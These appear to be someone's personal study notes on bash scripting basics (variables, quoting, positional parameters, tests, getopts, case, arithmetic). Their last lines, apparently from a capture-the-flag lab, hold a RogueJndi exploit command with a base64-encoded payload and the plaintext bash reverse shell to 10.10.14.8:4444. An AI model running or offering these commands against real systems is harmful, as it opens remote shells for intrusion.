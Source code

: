 `type -a 'item'` - find out if its a shell builtin or user command

if user command use man
 
if shell builtin use help
 
Use command to assign to variable = `VARIABLE=$(cmd)`  

Can also be `VARIABLE=`\``cmd`\`
 
Assign value using variable  

`WORD='script'`

variable = `${WORD}` or `$WORD`  

When you want to display the variable's value you use `$Variable`  
 
Single quotes prevent expansion of variables 
 
Double quotes provides the interpretation of the variable 
 
		`TEST='1'`
  
		`echo "$TEST"` provides 1
  
		`echo '$TEST'` provides $test
  
	If we want to append text to the end of the variable you need to use `{}`
 
	`echo "${WORD}ing"` provides Scripting
 
	Combining variables also require that you use the `{`
 
Changing the value stored in a variable (Reassignment)

	`ENDING='ed'`

	`echo "$ENDING"` ed
 
	`ENDING='ing'`
 
	`echo "$ENDING"` ing
 
parameter - variable being used inside the shell script

`;` is command separator or enter key

arguement - data passed into the shel lscritp

	arguement used in command line becoems the value stored in a parameter
 
`${0}` - first positional parameter - what is typed in the cmd line to execute the script - returns output of the command

`${1}` - value fo the first arguement passed to the script on the cmd

expression = `[[ expression ]]

	Display if user is root or not
```
if [[ "${UID}" -eq 0 ]]
		then
			echo 'You are root'
		else 
			echo 'You are not root'
		fi 
```
-eq - equal to 

-lt - less than

le - less than or equal to

gt - greater than

ge - greater than or equal to


`${?}` exit status variable of the most recently executed command

read input `read ` `-p` -passes the input onto value 

	ex. `read -p 'Entire input: ' variable_name`
 
useradd `-c` -comment for user `-m`(make home directory) `"username"`

shuf - shuffles entire lines

fold - wrap each input line to match space 

which - finds which path x command will execute from

	`which head` - finds location of head cmd
 
hash - `hash` - changes shell remembered locations

basename - strips out directory and suffix from filenames - aka display only filename - doesnt do smart checking

dirname - strips last component from file name - aka display only directory  - doesnt do smart checking

!`letter` - goes back to last command that started with X letter

`${@}` - puts each input as seperate words

`${*}` - puts each input as one word

`${#}` - represents the number of arguments

`sleep -s m h d` - delays command for -seconds -minutes -hours -days

`shift` - each time the cmd runs, ${#} goes down one

`readonly [variable]=[variable assignment]` - read only variable 

`getopts` - used matching pattern to get options from input

	`getopts input options OPTION`
 
	`while GET`
 
`bash pgrep -x` - check processes

`
### Case
case `[input]` in
`value`) `command` ;;
;; - block ender
esac - case finish

When trying to do math in bash format is `$(( NUM + NUM ))`

num can be variables as well but dont need ${} 


________________________________________________________________________
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.8"

echo 'bash -c bash -i >&/dev/tcp/10.10.14.8/4444 0>&1' |
base64

6ced1a6a89e666c0620cdb10262ba127

